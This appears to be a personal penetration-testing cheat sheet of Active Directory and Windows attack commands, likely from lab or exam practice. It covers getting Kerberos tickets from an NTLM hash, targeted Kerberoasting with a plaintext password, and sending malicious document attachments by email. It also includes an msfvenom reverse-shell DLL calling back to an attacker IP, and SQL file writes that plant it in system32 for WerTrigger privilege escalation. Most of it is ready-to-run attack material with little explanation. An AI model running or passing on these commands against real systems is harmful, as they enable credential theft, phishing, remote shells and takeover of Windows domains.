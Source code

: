 ```bash
sudo ntpdate $ip
```

####  Logins not Working with Password? Try with TGT!

Go to https://codebeautify.org.

```bash
getTGT.py $dom/john -dc-ip $ip -hashes :6DFCB20C87D04F9A4F9605F2413395D4
```

#### Targeted Kerberoasting ??

```bash
source /opt/windows/targetedKerberoast/venv/bin/activate
python /opt/windows/targetedKerberoast/targetedKerberoast.py -d $dom -u 'hrapp-service' -p 'Untimed$Runny' --dc-ip $ip
```

#### Malicious email

```bash
python /opt/mmg-ods.py windows 192.168.45.178 80
sudo swaks -t mailadmin@localhost --from jonas@localhost --attach @file.ods --server 192.168.218.140 --body body.txt --header "Subject: Staging Script"
```
```
sudo swaks -t neil@bratarina --from _smtpd@COFFEECORP --attach @bad.odt --server $ip --body body.txt --header "Subject: Staging Script"
```
https://github.com/gtworek/Priv2Admin
https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet?tab=readme-ov-file#kerberoast
https://github.com/bitsadmin/wesng

#### WerTrigger

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.231 LPORT=6969 -f dll > phoneinfo.dll

# Place files into system32 as an administrator
select load_file('C:\\xampp\\htdocs\\phoneinfo.dll') into dumpfile 'C:\\Windows\\system32\\phoneinfo.dll';
select load_file('C:\\xampp\\htdocs\\Report.wer') into dumpfile 'C:\\Windows\\system32\\Report.wer';
select load_file('C:\\xampp\\htdocs\\WerTrigger.exe') into dumpfile 'C:\\Windows\\system32\\WerTrigger.exe';

cd C:\windows\system32
.\WerTrigger.exe
```https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#sam-and-system-files
```

#### Watch over DLLs in a folder

```bash
$folderPath = "C:\java\jre\bin" ; if (!(Test-Path $folderPath -PathType Container)) {     New-Item -ItemType Directory -Path $folderPath | Out-Null } $envPath = [Environment]::GetEnvironmentVariable("PATH", "Machine") ; if ($envPath -notlike "*$folderPath*") {     $newPath = "$envPath;$folderPath"  ;   [Environment]::SetEnvironmentVariable("PATH", $newPath, "Machine") }
```


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname